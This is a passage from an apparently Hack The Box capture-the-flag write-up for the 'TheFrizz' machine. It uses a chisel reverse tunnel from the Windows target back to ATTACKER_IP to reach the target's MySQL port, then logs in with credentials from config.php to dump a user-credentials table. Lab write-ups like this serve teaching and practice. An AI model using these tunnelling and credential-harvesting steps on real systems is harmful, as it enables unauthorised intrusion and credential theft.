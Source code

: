 A `chisel` server is started on the attack host with the `--reverse` options which will allow a port forward to be specified from the client side.

```
fcoomans@kali:~/htb/thefrizz$ /usr/share/chisel-common-binaries/chisel_1.10.1_linux_amd64 server --port 8081 --reverse
2025/07/21 15:36:18 server: Reverse tunnelling enabled
2025/07/21 15:36:18 server: Fingerprint eHGcOG5GttVaaZ1jcOOhx/XI4WdQHhxuRPF1Gs6CG/0=
2025/07/21 15:36:18 server: Listening on http://0.0.0.0:8081
```

The `chisel` client is started on the target and port `3306` is reverse port forwarded to the attack host.

```
PS C:\Users\W522A~1.WEB\AppData\Local\Temp> .\chisel.exe client ATTACKER_IP:8081 R:127.0.0.1:3306:127.0.0.1:3306
.\chisel.exe client ATTACKER_IP:8081 R:127.0.0.1:3306:127.0.0.1:3306
2025/07/21 13:37:22 client: Connecting to ws://ATTACKER_IP:8081
2025/07/21 13:37:23 client: Connected (Latency 184.914ms)
```

The `mysql` client is used on the attack host to connect to the MySQL server on the target, using the credentials found in the `config.php` file.  The `gibbonperson` table contains the credentials for user `Fiona Frizzle`.

```
fcoomans@kali:~/htb/thefrizz$ mysql -h 127.0.0.1 -u MrGibbonsDB -p --skip-ssl
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 13
Server version: 10.4.32-MariaDB mariadb.org binary distribution

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| gibbon             |
| information_schema |
| test               |
+--------------------+
3 rows in set (0.185 sec)

MariaDB [(none)]> use gibbon;

<SNIP>

MariaDB [gibbon]> select * from gibbonperson;
```